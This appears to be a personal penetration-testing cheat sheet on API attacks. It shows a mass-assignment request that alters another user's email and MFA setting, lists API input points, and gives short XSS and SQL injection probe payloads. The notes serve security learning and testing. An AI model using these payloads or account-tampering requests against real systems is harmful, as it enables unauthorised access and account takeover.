 ```bash
{
"username": "Ash",
"address": "123 C St",
"city": "Pallet Town"
"region": "Kanto",
}



# To
PUT /api/v1/account/update
Token:UserA-Token
--snip--
{
"username": "Brock",
"address": "456 Onyx Dr",
"city": "Pewter Town",
"region": "Kanto",
"email": "ash@email.com",
"mfa": false
}
```

# API INJECTION
- Before you can inject a payload using an API, you must discover places where the API accepts user input
1. API keys
1. Tokens
1. Headers
1. Query strings in the URL
1. Parameters in POST/PUT requests

- Injection Payloads
1. Data That Is Displayed In Web Page Try XSS : Username / Email / Addresss / Anything You COntrol 
```bash
<script>alert("xss")</script>
<script>alert(1);</script>
<%00script>alert(1)</%00script>
SCRIPT>alert("XSS");///SCRIPT>
```

- Any Request That Makes / Changes Data To Be Persistence
1. SQL Injection
```bash
# Detection Payload
'
''
;%00
--
-- -
""
;

' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1
```
